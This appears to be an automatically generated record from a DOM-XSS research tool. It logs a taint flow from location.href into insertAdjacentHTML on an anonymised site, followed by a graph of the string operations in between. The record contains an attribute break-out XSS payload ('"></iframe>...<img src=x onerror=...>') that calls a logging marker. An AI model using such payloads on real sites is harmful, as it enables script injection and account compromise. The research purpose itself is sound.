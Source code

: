 // Finding: 63a9b158-c054-4d19-b3ed-fc65b228cf02
// Finding.url: https://areena.example164.com/tv/ohjelmat/dokumentit##"></iframe></style></script></object></embed></textarea><img src=x onerror=taintfoxLog('88c9896269c941f69f880821c0d0eb22')><!--/*
// Finding.parentloc: https://areena.example164.com/tv/ohjelmat/dokumentit##"></iframe></style></script></object></embed></textarea><img src=x onerror=taintfoxLog('88c9896269c941f69f880821c0d0eb22')><!--/*
// Finding.domain: areena.example164.com
// Finding.base_domain: example164.com
// Finding.source: location.href
// Finding.sink: insertAdjacentHTML
// Sanitizer.score: 27
// Sanitizer.name: <synthetic>
// Sanitizer.location: example18.com
// Finding.begin: 1053
// Finding.end: 1055
// Finding.original_uuid: 3f77e808-84b5-47b1-a370-4bc631b49af8
// Finding.TwentyFiveMillionFlowsId: -446461581
// Finding.script: https://areena.example164.com/awp-assets/generated/main-bundle.js?checksum=b4d09f398ca0d2466fd16b152c3d7cd2ca2d0a76773c27b34f685c4cf6b34e26
// Finding.line: 1
// Exploit.uuid: 88c98962-69c9-41f6-9f88-0821c0d0eb22
// Exploit.success: false
// Exploit.status: validated
// Exploit.method: C
// Exploit.type: html
// Exploit.token: attribute
// Exploit.content: href
// Exploit.quote_type: "
// Exploit.tag: a
// Exploit.break_out: #"></iframe></style></script></object></embed></textarea><img src=x onerror=
// Exploit.break_in: ><!--/*
// Exploit.payload: #"></iframe></style></script></object></embed></textarea><img src=x onerror=taintfoxLog(1)><!--/*
// Exploit.begin_taint_url: 0
// Exploit.end_taint_url: 6
// Exploit.replace_begin_url: 44
// Exploit.replace_end_url: 44
// Exploit.replace_begin_param: 662
// Exploit.replace_end_param: 662
// Issues.LargestEncodeAttrStringChain: 0
// Issues.LargestTextFragmentEncodeChainLength: 0
// Issues.HasApproximation: false
// Issues.HasMissingImplementation: false
// Issues.HasInfiniteRegexWithFunctionReplacer: false
// Issues.MergedSplitAndJoins: true
// Issues.HasUrlInRhsOfReplace: false
// Issues.HasUrlInLhsOfReplace: false
// Issues.HasCookieValueInLhsOfreplace: false
// Issues.HasCookieValueInRhsOfreplace: false
// Issues.HasCookieValueInMatchPattern: false
// Issues.HasCookieValueInExecPattern: false
// Issues.RemovedLRConcats: true
// Issues.RemovedReplaceArtifacts: false
// Issues.HasUrlInMatchPattern: false
// Issues.HasUrlInExecPattern: false
// Issues.RemovedNOPreplaces: false
// Issues.Known_sanitizer: false
// DepGraph.hash: -452200030
// DepGraph.sanitizer_hash: 1945429590
// Merged split and join statements 
// Removed LR concats 
digraph cfg {
n0 [shape=house, label="Input: x"];
n1 [shape=ellipse, label="split"];
n2 [shape=box, label="Lit: #"];
n3 [shape=box, label="Var: x"];
n4 [shape=ellipse, label="preg_replace"];
n5 [shape=box, label="RegExp: /\\/"];
n6 [shape=box, label="Lit: /"];
n7 [shape=box, label="Var: x"];
n8 [shape=ellipse, label="."];
n9 [shape=box, label="Lit: #"];
n10 [shape=ellipse, label="."];
n11 [shape=box, label="Lit: #"];
n12 [shape=ellipse, label="str_replace_once"];
n13 [shape=box, label="RegExp: /^[	\n\r                　\u2028\u2029﻿][	\n\r                　\u2028\u2029﻿]*/"];
n14 [shape=box, label="Lit: "];
n15 [shape=box, label="Var: x"];
n16 [shape=ellipse, label="str_replace_once"];
n17 [shape=box, label="RegExp: /[	\n\r                　\u2028\u2029﻿][	\n\r                　\u2028\u2029﻿]*$/"];
n18 [shape=box, label="Lit: "];
n19 [shape=box, label="Var: x"];
n20 [shape=ellipse, label="substr"];
n21 [shape=box, label="Var: x"];
n22 [shape=box, label="Lit: 6"];
n23 [shape=ellipse, label="substr"];
n24 [shape=box, label="Var: x"];
n25 [shape=box, label="Lit: 2"];
n26 [shape=ellipse, label="substr"];
n27 [shape=box, label="Var: x"];
n28 [shape=box, label="Lit: 0"];
n29 [shape=box, label="Lit: 13"];
n30 [shape=ellipse, label="strtolower"];
n31 [shape=box, label="Var: x"];
n32 [shape=ellipse, label="preg_replace"];
n33 [shape=box, label="RegExp: /[\x2E\u3002\uFF0E\uFF61]/"];
n34 [shape=box, label="Lit: ."];
n35 [shape=box, label="Var: x"];
n36 [shape=ellipse, label="preg_replace"];
n37 [shape=box, label="RegExp: /[.]/"];
n38 [shape=box, label="Lit: ."];
n39 [shape=box, label="Var: x"];
n40 [shape=box, label="Var: x"];
n41 [shape=doubleoctagon, label="Return: x"];
n3 -> n0;
n1 -> n2;
n1 -> n3;
n7 -> n1;
n4 -> n5;
n4 -> n6;
n4 -> n7;
n8 -> n9;
n8 -> n4;
n10 -> n8;
n10 -> n11;
n15 -> n10;
n12 -> n13;
n12 -> n14;
n12 -> n15;
n19 -> n12;
n16 -> n17;
n16 -> n18;
n16 -> n19;
n21 -> n16;
n20 -> n21;
n20 -> n22;
n24 -> n20;
n23 -> n24;
n23 -> n25;
n27 -> n23;
n26 -> n27;
n26 -> n28;
n26 -> n29;
n31 -> n26;
n30 -> n31;
n35 -> n30;
n32 -> n33;
n32 -> n34;
n32 -> n35;
n39 -> n32;
n36 -> n37;
n36 -> n38;
n36 -> n39;
n40 -> n36;
n41 -> n40;
}